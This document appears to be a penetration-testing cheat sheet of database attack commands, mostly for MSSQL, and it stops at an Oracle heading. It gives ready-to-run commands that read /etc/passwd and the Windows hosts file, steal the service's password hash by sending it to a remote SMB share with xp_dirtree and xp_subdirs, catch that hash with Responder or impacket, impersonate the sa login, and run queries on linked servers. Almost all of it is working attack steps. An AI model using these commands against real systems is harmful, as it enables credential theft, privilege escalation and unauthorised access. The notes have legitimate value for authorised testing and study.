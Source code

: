 ### Read Local Files in MSSQL
```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
### MySQL - Read Local Files in MySQL
```
select LOAD_FILE("/etc/passwd");
```
### Capture MSSQL Service Hash
XP_DIRTREE Hash Stealing
```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```
XP_SUBDIRS Hash Stealing
```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```
XP_SUBDIRS Hash Stealing with Responder
```
sudo responder -I tun0
```
XP_SUBDIRS Hash Stealing with impacket
```
sudo impacket-smbserver share ./ -smb2support
```
### Impersonate Existing Users with MSSQL
Identify Users that We Can Impersonate
```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
Verifying our Current User and Role
```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
Impersonating the SA User
```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
### Communicate with Other Databases with MSSQL
Identify linked Servers in MSSQL
```
1> SELECT srvname, isremote FROM sysservers
2> GO
```
```
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
## Oracle TNS